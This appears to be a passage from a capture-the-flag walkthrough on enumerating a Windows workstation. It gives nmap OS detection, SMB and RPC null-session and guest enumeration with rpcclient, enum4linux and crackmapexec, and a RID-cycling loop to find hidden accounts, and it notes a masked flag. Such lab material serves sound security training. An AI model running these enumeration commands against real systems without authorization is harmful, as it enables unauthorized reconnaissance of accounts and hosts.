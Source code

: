 ### Step 1.2: Operating System Fingerprinting

```bash
# Detailed OS detection
nmap -O --osscan-guess --fuzzy $TARGET_WS

# SMB OS discovery
crackmapexec smb $TARGET_WS

# Check if it's domain-joined or standalone
rpcclient -U "" -N $TARGET_WS -c "lsaquery"
```

## Phase 2: User and Account Enumeration

### Step 2.1: Local User Discovery

Workstations often have multiple local users:

```bash
# Enumerate local users via RPC
rpcclient -U "" -N $TARGET_WS
rpcclient $> enumdomusers
rpcclient $> querydispinfo

# Using enum4linux
enum4linux -U $TARGET_WS | tee users_enum.txt

# CrackMapExec user enumeration
crackmapexec smb $TARGET_WS -u '' -p '' --users
crackmapexec smb $TARGET_WS -u 'guest' -p '' --users --rid-brute
```

When examining users, check ALL properties:
```bash
# For each user found
rpcclient $> queryuser [username]
rpcclient $> queryuseraliases [username]
rpcclient $> queryuser 0x3e8  # Start from RID 1000
```

Look for:
- User descriptions
- Full names (may contain notes)
- Comments fields
- Last logon times (indicates active users)

**FLAG{M***************1}** - Found in jsmith's Full Name field

### Step 2.2: Hidden and Unusual User Accounts

```bash
# Enumerate ALL accounts including hidden
enum4linux -a $TARGET_WS | grep -i "user\|account"

# RID cycling to find hidden users
for i in $(seq 500 1500); do
    rpcclient -U "" -N $TARGET_WS -c "lookupsids S-1-5-21-[DOMAINSID]-$i" 2>/dev/null
done

# Using lookupsid.py
lookupsid.py guest@$TARGET_WS 500-1500
```
